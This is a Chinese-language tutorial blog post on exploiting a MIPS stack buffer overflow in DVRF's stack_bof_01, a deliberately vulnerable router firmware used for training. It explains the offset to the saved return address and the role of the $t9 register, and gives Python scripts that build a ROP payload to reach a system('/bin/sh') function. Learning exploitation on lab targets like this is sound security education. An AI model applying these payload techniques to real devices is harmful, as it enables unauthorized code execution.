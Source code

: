 ```yaml
---
title: 一步一步pwn路由器之栈溢出实战
authorId: hac425
tags:
  - mips rop
  - 栈溢出
categories:
  - 路由器安全
date: 2017-10-27 14:01:00
---
```

### 前言



---
本文由 **本人** 首发于 先知安全技术社区：  https://xianzhi.aliyun.com/forum/user/5274/

---

本文以 [DVRF](https://github.com/praetorian-inc/DVRF) 中的第一个漏洞程序 `stack_bof_01` 为例，在实战 `MIPS` 架构中栈溢出的简单利用。


### 正文
去github上面把 DVRF 下载下来，然后用 `binwalk` 解开

![paste image](http://oy9h5q2k4.bkt.clouddn.com/15090843759335sjlc5jz.png?imageslim)

在 `pwnable` 目录下就是相应的示例程序

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509084462823wk11dwv2.png?imageslim)
在解开的文件系统的根目录下使用 `chroot` 和 `qemu` 运行 程序：

```
sudo chroot . ./qemu-mipsel-static ./pwnable/Intro/stack_bof_01  "`cat ./pwnable/Intro/input`"
```

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509084652810a9d812lx.png?imageslim)

使用了`cat` 命令读取文件作为命令行参数，传给目标程序，这样可以使我们输入一些不可见字符用于劫持程序流。

`stack_bof_01` 是一个很简单的栈溢出漏洞程序，它把用户从命令行传过去的参数直接使用 `strcpy` 拷贝到栈缓冲区，从而栈溢出。经过调试，输入204个字符后就可以覆盖到 `ra` 寄存器保存到栈栈上的值，进而可以控制 `$pc` 的值。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509085110075dfzfw3j4.png?imageslim)
修改文件内容的 `python` 脚本如下

```
#!/usr/bin/python
padding = "O" * 204
payload = padding + "B"*4
with open("input", "wb") as f:
    f.write(payload)

```
接下来就是考虑该如何利用的问题了。程序中包含了一个 执行 `system("/bin/sh")` 的函数 `dat_shell`, 如果是在 `x86` 平台下的话，我们直接设置 `$pc` 寄存器到它的地址就可以了。在 `MIPS` 如果直接指过去或怎么样呢？我们试试

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509085500227rnxajrt2.png?imageslim)

访问了非法内存，异常了。
原因在于，在 MIPS 中，函数内部会通过 `$t9` 寄存器和 `$gp` 寄存器来找数据，地址等。同时在 `mips` 的手册内默认 `$t9` 的值为当前函数的开始地址，这样才能正常的索引，所以我们需要先用一个 `rop_gadget` 设置 `$t9`, 然后再跳到 `dat_shell` 函数。
在libc 中可以找到这样一个gadgets
```
.text:00006B20                 lw      $t9, arg_0($sp)
.text:00006B24                 jalr    $t9
```

加上libc的基地址就行了。用qemu-mipsel-static模拟程序是看不到目标程序的maps的，所以我们可以通过打印 `got` 表的函数指针，然后计算偏移得到 `libc` 的基地址。


所以我们现在的利用流程就是:
- 修改返回地址到 `rop_gadget`, 设置 `$r9` 为 `dat_shell` 函数的地址
- 跳转到 `dat_shell` 函数，执行`system`

```
#!/usr/bin/python
padding = "O" * 204
gadget1 = "\x20\xbb\x6e\x76"
dat_shell_addr = "\x50\x09\x40"  # Partial overwrite with little-endian arch
payload = padding + gadget1 + dat_shell_addr
with open("input", "wb") as f:
    f.write(payload)

```
![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509086115477pcnvhh8c.png?imageslim)

### 总结

- 学习到了 `$t9` 寄存器的重要作用以后再使用 `rop` 调用函数时，要使用 `jalr $t9` 类的 `gadgets` 以保证进入函数后， `$t9` 的值为函数的起始地址，避免出错。

- 使用ida反汇编mips程序时，它好像默认  `$t9` 的值为函数的起始地址,导致我们分析问题时造成困惑，pwndbg 和 [radare2](http://www.radare.org/r/) 就不会这样。

![paste image](http://oy9h5q2k4.bkt.clouddn.com/1509086721263tsioi5wr.png?imageslim)

感觉mips下还是 pwndbg 和 [radare2](http://www.radare.org/r/)靠谱

参考链接：

- https://www.pnfsoftware.com/blog/firmware-exploitation-with-jeb-part-1/

注：

&emsp;&emsp;本文先发布于：https://xianzhi.aliyun.com/forum/topic/1510/